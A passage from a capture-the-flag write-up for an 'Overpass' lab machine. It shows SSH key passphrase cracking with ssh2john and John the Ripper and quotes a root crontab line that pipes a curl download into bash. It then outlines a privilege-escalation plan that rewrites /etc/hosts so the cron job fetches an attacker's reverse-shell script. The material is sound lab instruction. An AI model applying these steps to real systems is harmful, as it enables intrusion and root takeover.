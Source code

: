 > `ssh2john.py ./james_id_rsa > ./james_id_rsa.hash`

to get this private key into a format that John the Ripper can crack. Finally, we can run the following to get the password for the SSH private key:

> `john ./id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt`

This [shows us](john.log) the password is: `james13`. We can now SSH into this server with:

> `ssh james@xxx.xxx.xxx.xxx -i ./james_id_rsa`

From that, we can retrieve the `user.txt` flag.

### Privilege Escalation

Linpeas showed that we had write-permissions on `/etc/hosts`. Meanwhile, `/etc/crontab` has an entry like this:

```bash
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```
Also see: [linpeas.log](linpeas.log)

#### The Killchain

This is a multi-step operation where we need to stand up a web server to offer our payload to the target machine, who we want to trick into download that payload. The idea is to:

1. Target: Modify `/etc/hosts` to point back to our workstation for `overpass.thm`.
1. Attacker: Stand up a webserver that hosts `/downloads/src/buildscript.sh`.
1. Attacker: Develop a payload that will spawn a reverse shell, and put it into that `buildscript.sh`.
1. Attacker: Create a listener to catch the session (e.g. `nc` or Metasploit).

Then, in the next minute:

1. The cronjob will kick off, reach out to OUR server for `buildscript.sh`.
1. `buildscript.sh` executes, running as `root`, and connects back to our listener.
1. We now have a reverse shell running as `root`. We can now retrieve the `/root/root.txt` flag.
